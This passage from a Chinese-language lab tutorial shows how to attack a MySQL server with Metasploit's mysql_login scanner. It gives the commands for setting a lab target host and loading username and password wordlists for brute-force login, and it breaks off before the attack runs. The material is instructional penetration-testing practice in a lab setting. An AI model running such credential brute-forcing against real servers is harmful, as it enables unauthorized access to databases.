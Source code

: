 ![实验楼](https://dn-simplecloud.shiyanlou.com/2120081479275229119-wm)

在控制台中，重建数据缓存，输入命令：

```
db_rebuild_cache
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483498265618.png-wm)



#### 3.2.2 攻击 MySQL 数据库服务器

下面演示下攻击 MySQL 数据库服务器大概流程：

##### 1. 使用 mysql_login 登录模块：

```
use auxiliary/scanner/mysql/mysql_login
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483497778084.png-wm)


##### 2. 由 show options 查看模块库有效选项：

```
show options
```

![实验楼](https://dn-simplecloud.shiyanlou.com/2120081479289201711-wm)

##### 3. 设置攻击的目标主机：

```
set RHOST 192.168.122.102
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483499433258.png-wm)


##### 4. 用 set 设置 USER_FILE 用户名文件（这里只是走流程）：

```
set user_file /root/Desktop/usernames.txt
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483499505721.png-wm)

##### 5. 用 set 设置 PASS_FILE 密码文件：

```
set pass_file /root/Desktop/passwords.txt
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483499589325.png-wm)

